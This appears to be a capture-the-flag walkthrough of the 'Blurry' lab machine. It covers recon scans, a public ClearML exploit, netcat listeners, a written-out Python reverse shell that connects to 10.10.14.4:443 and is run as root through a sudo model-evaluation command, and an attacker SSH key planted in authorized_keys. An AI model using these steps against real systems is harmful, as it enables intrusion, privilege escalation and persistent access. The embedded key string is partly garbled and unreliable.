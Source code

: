 **Ping**
```
ping 10.10.11.19
```
![[Pasted image 20240614114017.png]]\

**Nmap Default Scan**
```
nmap 10.10.11.19 -oN dnmap
```
![[Pasted image 20240614114119.png]]

**Nmap Script Scan and Service Scan**
```
nmap 10.10.11.19 -sC -sV -oN snmap
```
![[Pasted image 20240614114248.png]]

Nmap all Port Scan
```

```





On Port 80
We can't reach the site on port 80
So will add the Ip to out hosts file as **app.blurry.htb** 
![[Pasted image 20240614114650.png]]

Now We able to reach the site
![[Pasted image 20240614114505.png]]

Gobuster didn't work, so will go with feroxbuster


Will find is there any public exploit for CLEARML

![[Pasted image 20240614125658.png]]

We got One
![[Pasted image 20240614125734.png]]

Example use
![[Pasted image 20240614125753.png]]

Wiill do accordingly
![[Pasted image 20240614125856.png]]
Then will generate creds after creating a new project get creds

Our newly created Project
![[Pasted image 20240614130014.png]]

Will Navigate to Experiment
![[Pasted image 20240614130105.png]]
Will create a new experiment

![[Pasted image 20240614130144.png]]
Will click the Create New Credentials

![[Pasted image 20240614130225.png]]
We got our config file

Will Set up clearml in our terminal
![[Pasted image 20240614130323.png]]

Initiated clearml and pasted our cred
![[Pasted image 20240614130556.png]]

Before running the exploit, I have changed the Lhost and Lport in the code
![[Pasted image 20240614131128.png]]

Now we run the exploit
![[Pasted image 20240614130646.png]]

We got new experiment running on the Project that admin is executing
![[Pasted image 20240614130807.png]]

Will set up the listener on port 4444 and will wait for admin to execute the experiment
```
rlwrap nc -nvlp 443
```
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240614130921.png]]
Got the shell and upgraded my shell using python3.

Got the user.txt in jippity home directory
![[Pasted image 20240614131309.png]]






I found the Jippity's id_rsa in /.ssh directory, so I have added my public key into the authorized_key of Jippity and copied his id_rsa and got ssh session without a password.

![[Pasted image 20240614132143.png]]

Copied my id_rsa.pub to Jippity's Authorized keys
```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCvqEOF3sUHMdXMcutJnRBN4cSoInz1ZgUIHueLkQapyJ9/GoMJ84gyEqdrbDP4wyfGi/Ftc38lMK3zuM3En0ZtcIezY9veVilBR4YYNhegpYLEtf3s+JOoZWWK5EEGYUABheQEFUZRmKD6Hwi+NOOOOOOOOOPEAKDSOIDHPOUO(WY)nM5JsZtXUeLhGwTpuhtC3E20Jlf0PWRAJLigHvOhXOJ8pVcmvkGRU+ZCsrk0pRqCtHLEVaPTxC7kxpkUUDqo+iPVhdW/XI4+pJ6A77pxwkBNYacfdeVAjD6pkZF45x+pQ04RjPjdepEup+6S9aXWjzSkNLjt/lsYMbytCY7ujzsjxyG8JCyIvBKCe0ZD1Ab9V83T0J91MJRRMyYU1ySsljQEx9AGa6Fyt0koCNzKhZ1ujOM= root@kali" >> authorized_keys
```
![[Pasted image 20240614132328.png]]

Copied his id_rsa to my kali machine
![[Pasted image 20240614132405.png]]

The got session via ssh
```
nano id_rsa
```
```
chmod 600 id_rsa
```
```
ssh jippity@10.10.11.19 -i id_rsa
```
![[Pasted image 20240614132624.png]]

Let's find we have any sudo permissions
```
sudo -l
```
![[Pasted image 20240614141619.png]]

Lets navigate to /models directory
![[Pasted image 20240614141649.png]]

Will modify the .py file with our reverse shell code
```
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.4", 443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
import pty
pty.spawn("sh")
```
![[Pasted image 20240614141727.png]]

Before running this code, will setup listener on port 443
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240614141822.png]]

Now will exploit the code
```
sudo /usr/bin/evaluate_model /models/*.pth
```
![[Pasted image 20240614141910.png]]

Got Reverse shell as root
![[Pasted image 20240614141933.png]]

Lets upgrade the shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240614142057.png]]

Got the Root.txt file in root directory
![[Pasted image 20240614142143.png]]


Done with Blurry......:)